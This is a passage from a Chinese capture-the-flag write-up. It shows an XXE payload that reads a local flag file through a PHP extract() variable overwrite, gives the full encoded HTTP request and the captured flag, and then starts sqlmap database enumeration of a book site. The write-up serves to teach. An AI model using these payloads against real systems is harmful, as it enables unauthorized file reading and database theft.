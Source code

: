 发现使用了extract($_REQUEST)方法来自动更新变量的值,导致了变量覆盖漏洞.

联想到XXE漏洞,在get参数中传入diary_template=

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE diary[<!ENTITY content SYSTEM "file:///flag" >]>
<diary>
    <date>%s</date>
    <feeling>%s</feeling>
    <content>&content;</content>
</diary>
```

注意需要使用编码来传,不可以直接传,使用burp修改之后大概像这样

```http
GET /newdiary.php?feeling=%E5%BC%80%E5%BF%83&content=123&diary_template=%3C%3Fxml+version%3D%271.0%27+encoding%3D%27utf-8%27%3F%3E%0D%0A%3C%21DOCTYPE+diary%5B%3C%21ENTITY+content+SYSTEM+%22file%3A%2F%2F%2Fflag%22+%3E%5D%3E%0D%0A%3Cdiary%3E%0D%0A++++%3Cdate%3E%25s%3C%2Fdate%3E%0D%0A++++%3Cfeeling%3E%25s%3C%2Ffeeling%3E%0D%0A++++%3Ccontent%3E%24content%3C%2Fcontent%3E%0D%0A%3C%2Fdiary%3E HTTP/1.1
Host: 1.container.jingsai.apicon.cn:30133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://1.container.jingsai.apicon.cn:30133/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

传上去之后即可得到flag.

flag:`VIDAR{A11_st0r!es_begiN_with_4_f0rgotten_Archive_fi1e}`

所有的故事都来源于一个被遗忘的源码备份:)

### Book Management System

1.SQLMAP一把梭

下载好sqlmap,进入有py文件的文件夹,打开文件夹,输入cmd,打开命令行

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -dbs
```

available databases [2]:
[*] book
[*] information_schema

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -tables
```

Database: book
[2 tables]
+--------+
| books  |
| secret |
+--------+
